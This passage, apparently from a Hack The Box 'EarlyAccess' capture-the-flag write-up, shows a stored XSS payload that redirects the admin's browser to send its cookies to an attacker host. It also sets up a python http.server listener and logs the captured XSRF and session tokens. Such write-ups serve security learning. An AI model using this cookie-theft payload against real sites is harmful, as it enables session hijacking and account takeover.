 ```js
<script>document.location="http://IP/?c="+document.cookie;</script>
```

In order to receive the cookie, we have to listen for http-connections. For this we can use the python http.server module.

```bash
root@void:/tmp# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next we have to change our username to the XSS-payload, send a message to the admin and wait until we receive the cookie.

![Sending XSS to admin](/assets/htb/EarlyAccess/https/xss-admin.png)

After sending the message, we have to wait about a minute until we finally get a response:

```bash
root@void:~# python3 -m http.server 80                    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.110 - - [03/Feb/2022 09:25:24] "GET /?c=XSRF-TOKEN=eyJpdiI6IjZ1c3BncGUraGh6ZGt6SEpjeXh2TlE9PSIsInZhbHVlIjoiZktEa2kwd3ZQUGVyY01EYXBJU3J5Skc3c0UwVjBPK1pKdEpFSzlHMlkzc21ZbWVNUG5yUXNsRkVGRHg5TlZCYWkvY1J2SXJLYnhwall5T0x5Y2pFcmcrb0NwQk1tLzVwMzM5QkdIL2hlcWgreWZRZUdmNVdMNUYwc1kwZy95dmsiLCJtYWMiOiJhMWQwMzUxZTRjZjM1NDVjZDFjNDAzNzZkMjQ5ZjAxMTQ5ZjU2MmUyNTZlNzE3ZjZiODYwNzlhZDBkZmMxMTZmIn0%3D;%20earlyaccess_session=eyJpdiI6IlVWcjB0cmNqQ0ovYnZaL0tWczIxdGc9PSIsInZhbHVlIjoiQUFNQ0ZUQ3N2a2xYQkxYRnpicU0xaGRqaHU4ai9aU093TkNtVmdDRno1K3dDT01WMzZPdWpod3EzWVZSOFkrcmNwd3BKZHBIUFlQdVZJanVxL3YycldmVUxkQ0J4SVc2OEk1MjRrcHcwNEwydi9mUHk5bjFjZFFFeEM0Z25zbU4iLCJtYWMiOiI4YzRlZTA3NTI5NTQwYjk5NGY3MWJhOTE0YzBjNmVkYjliMDRkZjM5OTAzY2NiNzc0OGVhNWFhNjYwZGI1MWE2In0%3D HTTP/1.1" 200 -
```
